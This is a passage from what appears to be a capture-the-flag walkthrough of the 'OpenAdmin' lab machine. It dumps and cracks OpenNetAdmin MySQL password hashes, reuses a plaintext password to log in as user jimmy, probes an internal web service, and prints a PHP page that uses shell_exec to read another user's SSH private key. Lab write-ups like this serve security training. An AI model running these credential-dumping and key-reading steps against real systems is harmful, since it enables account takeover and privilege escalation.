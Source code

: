 ## OpenNetAdmin Credentials in MySQL
```
mysql> use ona_default;
```

```
mysql> select * from users;
+----+----------+----------------------------------+-------+---------------------+---------------------+
| id | username | password                         | level | ctime               | atime               |
+----+----------+----------------------------------+-------+---------------------+---------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |     0 | 2021-04-06 21:32:08 | 2021-04-06 21:32:08 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |     0 | 2021-04-06 21:22:17 | 2021-04-06 21:22:17 |
+----+----------+----------------------------------+-------+---------------------+---------------------+
```

```
21232f297a57a5a743894a0e4a801fc3:admin           
098f6bcd4621d373cade4e832627b4f6:test
```

## Local Privilege Escalation (jimmy)
Used the password of the `OpenNetAdmin's MySQL` user to log in as the user `jimmy`.
```
jimmy: n1nj4W4rri0R!
```

```
jimmy@openadmin:/opt$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

## Internal OpenAdmin Web Application
```
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN
```

```
(remote) www-data@openadmin:/var/www/ona$ nc 127.0.0.1 52846
sdf
HTTP/1.1 400 Bad Request
Date: Tue, 06 Apr 2021 20:40:31 GMT
Server: Apache/2.4.29 (Ubuntu)
...
<address>Apache/2.4.29 (Ubuntu) Server at internal.openadmin.htb Port 80</address>
...
```

## SSH RSA Private Key Disclosure
```
jimmy@openadmin:/var/www/internal$ cat main.php 
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
```
